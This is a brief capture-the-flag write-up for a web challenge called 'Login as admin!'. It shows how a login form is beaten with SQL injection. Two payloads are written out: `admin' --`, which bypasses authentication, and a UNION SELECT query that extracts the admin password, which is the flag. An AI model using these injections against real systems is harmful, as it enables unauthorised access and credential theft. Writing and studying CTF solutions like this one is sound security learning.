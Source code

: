 # Login as admin!

## Problem

Login as admin. And get the flag! The flag is the password of admin.

http://arrive.chal.mmactf.link/login.cgi

You can use test:test.

## Solution

Commendation: [@emedvedev](https://github.com/emedvedev)

The form contains an easy SQL injection and you can login as admin with entering `admin' --` in the username field.

```
Congratulations!!
You are admin user.
The flag is your password!
```

There's a username in the output, so we get a password with another injection angle: using a `UNION SELECT` instead of username.

Login with `' union select (SELECT password FROM user WHERE user='admin'),2--`. You'll see the flag:

```
You are MMA{cats_alice_band} user.
```
